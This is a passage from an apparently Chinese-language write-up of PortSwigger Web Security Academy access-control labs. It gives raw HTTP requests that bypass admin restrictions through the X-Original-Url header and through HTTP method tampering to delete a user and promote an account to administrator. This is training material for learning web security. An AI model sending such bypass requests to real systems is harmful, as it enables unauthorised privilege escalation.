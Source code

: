 ### 解答
```
GET / HTTP/1.1
Host: acf01f601e8fd19ec053523900c70049.web-security-academy.net
X-Original-Url: /admin
```

```
GET /?username=carlos HTTP/1.1
Host: acf01f601e8fd19ec053523900c70049.web-security-academy.net
X-Original-Url: /admin/delete
```

要記得參數一樣是帶在 GET 上面

## [Lab: Method-based access control can be circumvented](https://portswigger.net/web-security/access-control/lab-method-based-access-control-can-be-circumvented)
### 題目敘述
 This lab implements access controls based partly on the HTTP method of requests. You can familiarize yourself with the admin panel by logging in using the credentials administrator:admin.

To solve the lab, log in using the credentials wiener:peter and exploit the flawed access controls to promote yourself to become an administrator. 

### 題目解釋
同樣參數 GET 改 POST

### 解答

先用 Admin 帳號登入觀察
如果需要讓使用者成為 admin 的話

```
POST /admin-roles HTTP/1.1
Host: acac1f0e1f088664c0419aa800230031.web-security-academy.net
Cookie: session=Z2rkFKedK7lW4qAujPNF88i1pG8HZTDb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://acac1f0e1f088664c0419aa800230031.web-security-academy.net
Referer: https://acac1f0e1f088664c0419aa800230031.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

username=carlos&action=upgrade
```
